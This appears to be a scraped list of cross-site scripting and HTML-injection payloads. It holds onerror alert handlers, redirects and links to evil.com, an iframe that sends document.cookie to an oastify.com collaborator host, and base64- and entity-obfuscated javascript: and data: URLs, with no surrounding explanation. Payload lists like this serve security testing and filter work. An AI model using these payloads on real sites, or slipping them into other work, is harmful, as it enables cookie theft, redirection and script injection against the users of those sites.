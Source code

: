 "><img src=x onerror=alert(9)>
<a href="https://evil.com">Clickme</a>
<iframe src="https://evil.com"</iframe>
<meta http-equiv="refresh" content="2; https://evil.com/" />
<iframe sandbox src="https://fatyyhrid71djfy1fszeqy140v6mxanyc.oastify.com/?'+document.cookie; this.removeAttribute('onerror');"></iframe>
<a href="&#X6A;avascript:alert(1)">XSS</a>
<iframe srcdoc="<script>alert(document.cookie)</script>"></iframe>
<img src=x onerror=location=atob`amF2YXNjcmlwdDphbGVydChkb2N1bWVudC5kb21haW4p`>
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=">Clickme</a>
